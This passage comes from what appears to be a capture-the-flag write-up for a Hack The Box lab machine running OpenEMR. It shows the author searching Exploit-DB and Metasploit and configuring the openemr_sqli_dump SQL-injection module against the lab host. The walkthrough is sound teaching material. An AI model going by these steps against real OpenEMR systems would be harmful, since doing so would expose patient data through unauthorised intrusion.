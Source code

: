 Let's add this entry in `/etc/hosts` too.

```
$ cat /etc/hosts | grep hms
10.10.10.188 hms.htb
```

We are quickly redirected to http://hms.htb/interface/login/login.php?site=default

### HTTP exploitation (OpenEMR): SQLi

Its seems we have an openEMR instance.

There are many exploits but we don't know which version this is.

Usually I never go to EDB website and only use `searchsploit`, but this time
we don't know the version used, the only thing we know is that is was a version
probably released in 2018 as the copyright is from 2018.

By searching on EDB website, we have the date of publication of the exploit.
So with some luck we can begin with the exploits published in 2018.

https://www.exploit-db.com/search?q=openemr

But those two exploits require authentication. No luck.

So let's see what exploits are also in [Metasploit][msf]:

```
msf5 > search openemr

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  auxiliary/sqli/openemr/openemr_sqli_dump         2019-05-17       normal     Yes    OpenEMR 5.0.1 Patch 6 SQLi Dump
   1  exploit/unix/webapp/openemr_sqli_privesc_upload  2013-09-16       excellent  Yes    OpenEMR 4.1.1 Patch 14 SQLi Privilege Escalation Remote Code Execution
   2  exploit/unix/webapp/openemr_upload_exec          2013-02-13       excellent  Yes    OpenEMR PHP File Upload Vulnerability
```

The first one seems promising, let's set it up:

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > options

Module options (auxiliary/sqli/openemr/openemr_sqli_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.188     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the OpenEMR installation
   VHOST      hms.htb          no        HTTP server virtual host
```
